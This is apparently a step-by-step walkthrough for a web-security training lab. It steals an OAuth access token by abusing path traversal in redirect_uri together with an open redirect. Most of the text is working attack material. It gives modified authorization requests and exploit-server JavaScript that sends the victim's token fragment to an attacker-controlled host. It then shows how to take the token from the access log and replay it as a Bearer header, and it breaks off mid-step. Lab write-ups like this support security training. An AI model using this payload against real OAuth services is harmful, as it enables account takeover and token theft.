 ```bash
GET /auth?client_id=myts2a6dlxi262p7ws0up&redirect_uri=https://ac441fcc1ef29a53c0c45aec00bd0048.web-security-academy.net/oauth-callback&response_type=token&nonce=1387349322&scope=openid%20profile%20email HTTP/1.1

Change to:

GET /auth?client_id=myts2a6dlxi262p7ws0up&redirect_uri=https://ac441fcc1ef29a53c0c45aec00bd0048.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-ac891f3e1e1a9a26c0525aa101190082.web-security-academy.net/exploit&response_type=token&nonce=1387349322&scope=openid%20profile%20email HTTP/1.1

Response:

"Hello world!"

Go to: "Go to exploit server"
Body:

<script>
window.location = '/?'+document.location.hash.substr(1)
</script>

Store
Go to:

https://exploit-ac891f3e1e1a9a26c0525aa101190082.web-security-academy.net/exploit

Go to: "Go to exploit server"
Access log
Your access_token should be visible
Go to: "Go to exploit server"
Change:
Body:

<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-ac9c1f1e1e659a34c03e5a2e02470006.web-security-academy.net/auth?client_id=myts2a6dlxi262p7ws0up&redirect_uri=https://ac441fcc1ef29a53c0c45aec00bd0048.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-ac891f3e1e1a9a26c0525aa101190082.web-security-academy.net/exploit/&response_type=token&nonce=1387349322&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>

Store
Deliver exploit to victim
Access log
Find:

lgUirMedjsTACCZD0yDpmTGdUGfpqzkBNruKSnGcqpm

Go to: Repeater
Find:

GET /me HTTP/1.1

Replace:

Authorization: Bearer 8GYD2RyMqnNAWmlBUbRNXZ207g80nY8phibHFVNkP_cbeyy70ia9buov

With

```